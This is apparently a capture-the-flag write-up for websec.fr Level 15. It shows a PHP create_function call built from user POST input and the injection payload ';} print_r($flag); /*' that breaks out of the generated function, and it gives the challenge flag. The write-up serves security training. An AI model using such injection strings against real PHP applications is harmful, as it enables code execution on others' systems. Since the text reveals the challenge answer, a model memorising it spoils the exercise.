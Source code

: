 # Level 15

1. First, lets check out what is written in http://websec.fr/level15/source.php
2. Then we could find out a interesting function :
    ```
    $fun = create_function('$flag', $_POST['c']);
    ```
    Now, lets check out what does it work.
    ```
    create_function('$flag' , 'echo $flag');
    ```
    Equals to : 
    ```
    function Flag($flag) {
        echo $flag;
    }
    ```
3. So, all we have to do is to figure out commands that can pass the function  and get the flag. 
    ```
    ;} print_r($flag); /*
    ```
    Then we send it and get the flag. Of course, you can still use Python to get the flag.
4. Here is the flag : WEBSEC{HHVM_was_right_about_not_implementing_eval}
